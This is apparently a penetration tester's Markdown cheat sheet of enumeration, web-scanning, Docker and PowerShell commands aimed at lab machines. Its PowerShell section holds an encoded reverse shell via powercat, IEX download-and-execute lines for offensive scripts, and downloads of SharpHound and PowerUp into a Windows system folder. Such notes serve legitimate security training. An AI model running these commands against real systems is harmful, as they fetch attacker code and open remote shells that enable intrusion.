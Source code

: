 # Commands

## vi (setup)

```sh
cat /etc/vim/vimrc.local 
set paste
set cursorline
set number
```

## Bash

```sh
ctrl-r: search through command history, right arrow key to put match on the command line, repeat ctrl-r to cycle through more results 
ctrl-w: delete the last word
ctrl-u: delete the content from current cursor back to the start of the line
ctrl-k: kill to the end of the line 
ctrl-a: move cursor to beginning of line  
ctrl-e: move cursor to end of line 
ctrl-l: clear the screen. 
ctrl-<arrow-keys>: move by word
```

## Enumeration 

```sh
sudo masscan -p1-65535 10.10.10.77 --rate=1000 -e tun0 > ports
ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')
sudo nmap -Pn -sV -sC -p$ports 10.10.10.77 -oA nmap
```

## Web

```sh
gobuster dir -w /usr/share/wordlists/dirb/common.txt -l -t 30 -e -k -x .html,.php -u http://192.168.1.159:80 -o gob_common_80.txt
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -l -t 30 -e -k -x .html,.php -u http://192.168.1.159:80 -o go_medium_80.txt

# fuzz host header
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.15/ -H "Host: FUZZ.example.com" -mc 200 -c

nikto -host 192.168.1.159:8080 | tee -a nikto_192.168.1.159_8080.txt
```

## Find

```sh
find / -perm -4000 2> /dev/null
grep -iR "pass" * | more
```

## PYTHON

```sh
mkdir environment
cd environment

python3 -m venv my_env
source my_env/bin/activate

# Alternative:

virtualenv my_env
source my_env/bin/activate
```
## Socat

```sh
# Tunnel a connection from a local TCP port to a remote service

socat -v tcp4-listen:8000,reuseaddr,fork tcp4:10.10.12.15:80 
```

## Powershell

### Encoded commands

```powershell
$command="ls"
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))
powershell.exe -encoded $Encoded
```
Reverse Shell

```powershell
$command={IEX(New-Object System.Net.WebClient).DownloadString('http://10.13.14.3:9000/powercat.ps1'); powercat -c 10.13.14.3 -p 1234 -e cmd}
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))

$command = 'IEX (New-Object Net.WebClient).DownloadString("http://10.13.14.3:9000/Invoke-PowerShellTcpRun.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
```

Port Scanning

```powershell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("localhost", $_)) "Port $_ is open!")) 2>$null
```

Downloading

```powershell
$url="http://10.10.14.13:9000/SharpHound.exe"
$output="C:\Windows\System32\spool\drivers\color\SharpHound.exe"
(New-object system.net.webclient).downloadfile($url,$output)

(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.13:9000/PowerUp.ps1", "C:\Windows\System32\spool\drivers\color\PowerUp.ps1")
```

Reflective Downloading

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.7:9000/PowerView.ps1')
```

Size of Folder

```powershell
"{0} MB" -f ((Get-ChildItem C:\users\ -Recurse -force | Measure-Object -Property Length -Sum -ErrorAction Stop).Sum / 1MB)
```

Compress

```powershell
Compress-Archive -LiteralPath <PathToFolder> -DestinationPath <PathToDestination>
```
Find Files

```powershell
gci -force -recurse -file -ea silentlycontinue  

Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -force -ErrorAction SilentlyContinue

FindDate=Get-Date -Year 2016 -Month 06 -Day 24
Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate }
Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate -and $_.LastWriteTime -le $Finddate.adddays(1) }
```
## Docker
 
```sh
docker pull nginx:1.19.4-alpine
docker images
docker run --name my-nginx -d -p 9080:80 nginx:1.19.4-alpine # -d: detached mode
docker logs -f my-nginx # -f: like tail -f, follow the log
docker inspect my-nginx

# Having a Dockerfile

docker build -t xxx:yyy .

# Running

docker ps # running containers
docker ps -a  # also not running
docker ps -q # quite, only IDs

docker start [container]
docker stop [container]
docker restart [container]

docker kill $(docker ps -q)
docker rm $(docker ps -a -q)

docker exec -ti my-nginx /bin/sh
docker run -ti --rm --name my-ngnix nginx:1.19.4-alpine /bin/sh

# Mount folder

docker run -ti --rm --name my-ngnix -v /home/kali:/mnt nginx:1.19.4-alpine /bin/sh 

# Dangling images

docker images --filter "dangling=true"
docker rmi $(docker images -q --filter "dangling=true")

docker system prune -a

# History
docker history nginx:1.19.4-alpine
```

## Useful links

<https://github.com/swisskyrepo/PayloadsAllTheThings>

<https://book.hacktricks.xyz/>

<https://gtfobins.github.io/>

<https://github.com/LOLBAS-Project/LOLBAS/blob/master/README.md>

<https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf>

